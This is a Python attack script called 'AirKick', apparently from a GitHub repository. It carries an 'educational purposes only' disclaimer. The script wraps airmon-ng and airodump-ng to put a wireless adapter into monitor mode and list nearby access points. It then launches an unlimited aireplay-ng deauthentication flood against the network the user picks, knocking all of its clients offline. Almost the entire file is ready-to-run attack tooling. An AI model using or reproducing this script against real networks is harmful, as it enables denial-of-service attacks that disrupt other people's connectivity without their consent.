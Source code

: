 # 1015-No-Brainers
# THIS SCRIPT WAS MADE FOR EDUCATIONAL PURPOSES ONLY. THE AUTHOR IS NOT LIABLE FOR ANY HARM DONE USING THIS SCRIPT.

import subprocess
import re
import csv
import os
import time
import shutil
from datetime import datetime


active_wireless_networks = []


def check_for_essid(essid, lst):
    check_status = True

    
    if len(lst) == 0:
        return check_status

    
    for item in lst:
        
        if essid in item["ESSID"]:
            check_status = False

    return check_status





print(r"""    _    _        _  ___      _    
   / \  (_)_ __  | |/ (_) ___| | __
  / _ \ | | '__| | ' /| |/ __| |/ /
 / ___ \| | |    | . \| | (__|   < 
/_/   \_\_|_|    |_|\_\_|\___|_|\_\ """)
print("\n****************************************************************")
print("\n* Freshly brewed by Vansh Choudhary *")
print("\n****************************************************************")



if not 'SUDO_UID' in os.environ.keys():
    print("Try running this program with sudo.")
    exit()


for file_name in os.listdir():
    
    if ".csv" in file_name:
        print("There shouldn't be any .csv files in your directory. We found .csv files in your directory.")
        
        directory = os.getcwd()
        try:
            
            os.mkdir(directory + "/backup/")
        except:
            print("Backup folder exists.")
        
        timestamp = datetime.now()
        
        shutil.move(file_name, directory + "/backup/" + str(timestamp) + "-" + file_name)


wlan_pattern = re.compile("^wlan[0-9]+")



check_wifi_result = wlan_pattern.findall(subprocess.run(["iwconfig"], capture_output=True).stdout.decode())


if len(check_wifi_result) == 0:
    print("Please connect a WiFi controller and try again.")
    exit()


print("The following WiFi interfaces are available:")
for index, item in enumerate(check_wifi_result):
    print(f"{index} - {item}")


while True:
    wifi_interface_choice = input("Please select the interface you want to use for the attack: ")
    try:
        if check_wifi_result[int(wifi_interface_choice)]:
            break
    except:
        print("Please enter a number that corresponds with the choices.")


hnic = check_wifi_result[int(wifi_interface_choice)]


print("WiFi adapter connected!\nNow let's kill conflicting processes:")



kill_confilict_processes =  subprocess.run(["sudo", "airmon-ng", "check", "kill"])


print("Putting Wifi adapter into monitored mode:")
put_in_monitored_mode = subprocess.run(["sudo", "airmon-ng", "start", hnic])



discover_access_points = subprocess.Popen(["sudo", "airodump-ng","-w" ,"file","--write-interval", "1","--output-format", "csv", hnic + "mon"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)


try:
    while True:
        
        subprocess.call("clear", shell=True)
        for file_name in os.listdir():
                
                
                fieldnames = ['BSSID', 'First_time_seen', 'Last_time_seen', 'channel', 'Speed', 'Privacy', 'Cipher', 'Authentication', 'Power', 'beacons', 'IV', 'LAN_IP', 'ID_length', 'ESSID', 'Key']
                if ".csv" in file_name:
                    with open(file_name) as csv_h:
                        
                        
                        csv_h.seek(0)
                        csv_reader = csv.DictReader(csv_h, fieldnames=fieldnames)
                        for row in csv_reader:
                            if row["BSSID"] == "BSSID":
                                pass
                            elif row["BSSID"] == "Station MAC":
                                break
                            elif check_for_essid(row["ESSID"], active_wireless_networks):
                                active_wireless_networks.append(row)

        print("Scanning. Press Ctrl+C when you want to select which wireless network you want to attack.\n")
        print("No |\tBSSID              |\tChannel|\tESSID                         |")
        print("___|\t___________________|\t_______|\t______________________________|")
        for index, item in enumerate(active_wireless_networks):
            
            
            
            print(f"{index}\t{item['BSSID']}\t{item['channel'].strip()}\t\t{item['ESSID']}")
        
        time.sleep(1)

except KeyboardInterrupt:
    print("\nReady to make choice.")


while True:
    choice = input("Please select a choice from above: ")
    try:
        if active_wireless_networks[int(choice)]:
            break
    except:
        print("Please try again.")


hbssid = active_wireless_networks[int(choice)]["BSSID"]
hchannel = active_wireless_networks[int(choice)]["channel"].strip()



subprocess.run(["airmon-ng", "start", hnic + "mon", hchannel])


subprocess.Popen(["aireplay-ng", "--deauth", "0", "-a", hbssid, check_wifi_result[int(wifi_interface_choice)] + "mon"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL) 


try:
    while True:
        print("Deauthenticating clients, press ctrl-c to stop")
except KeyboardInterrupt:
    print("Stop monitoring mode")
    
    subprocess.run(["airmon-ng", "stop", hnic + "mon"])
    print("Thank you! Exiting now")


#Names: Preet Durllabh, Uriel Trejo
